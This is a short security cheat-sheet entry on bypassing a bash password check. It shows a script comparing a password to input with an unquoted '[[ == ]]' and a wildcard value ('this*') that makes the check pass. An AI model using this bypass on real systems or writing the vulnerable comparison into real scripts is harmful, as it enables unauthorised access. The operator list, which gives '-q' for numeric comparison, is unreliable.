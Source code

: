 ## Bash Escape / Exploit

### Summary
- Bash Comparison

### Bash Comparison
- **= or == :** for string comparisons
- **-q :** for numeric comparisons
**Vulnerable Code**
``` bash
DB_PASS="thisisdbpass"; => Just for example, it's should be REDACTED
USER_PASS="i_dont_know_what_is_db_pass"

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```
The result of that will be "Failed" because DB_PASS and USER_PASS does not match!
**Exploit**
``` bash
DB_PASS="thisisdbpass"; => Just for example, it's should be REDACTED
USER_PASS="this*" => asterisk character (*) it acts as a wildcard and matches any part of the string.

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```